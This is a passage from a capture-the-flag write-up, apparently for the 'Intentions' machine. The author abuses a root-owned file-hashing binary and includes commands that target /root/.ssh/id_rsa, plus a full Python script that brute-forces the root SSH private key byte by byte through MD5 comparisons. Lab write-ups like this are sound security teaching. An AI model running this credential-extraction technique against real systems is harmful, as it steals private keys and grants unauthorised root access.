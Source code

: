 
So looking at the help function the binary is used to create MD5 hash  of files to check them if they aren't causing any copyright issues. The interesting part of this binary is that we can select the amount of bytes which would allow us to brute force a file one character at a time. First we'd need to find a file worth stealing owned by root, the first thing that comes to mind is an SSH key so i tried to verify its existance by running the following command 

```
/opt/scanner/scanner -c /root/.ssh/id_rsa -s 0 -p
```
![Proof SSH key exists](/assets/img/Intentions/Intentions_7.png)

So this proved that the SSH key does indeed exist next i wanted to see if i could take the hash of just one byte. I tried this with the following command:

```
/opt/scanner/scanner -c /root/.ssh/id_rsa -s 0 -p -l 1
```
![Extracting one Character](/assets/img/Intentions/Intentions_8.png)

Knowing we can select the length of the file we can then just brute force this by calculating the hashes ourselves. To do this automated i created a python script and will go over it step by step.

The full code of the script is here:
```
#!/usr/bin/env python3

import hashlib
import os
import string

file_to_brute = "/root/.ssh/id_rsa"
charset = string.printable
current_read = ""

def find_char(temp_hash):
    for i in charset:
        test_data = current_read + i
        current_hash = hashlib.md5(test_data.encode()).hexdigest()
        if temp_hash == current_hash:
            return i
    return None

def get_hash(i):
    temp_hash = os.popen(f"/opt/scanner/scanner -c {file_to_brute} -s 0 -p -l {i}").read().split(" ")[-1].rstrip()
    return temp_hash

i = 1
while True:
    temp_hash = get_hash(i)
    new_char = find_char(temp_hash)
    if not new_char:
        break
    else:
        current_read += new_char
        i += 1

print("FINAL FILE:")
print(current_read)
```
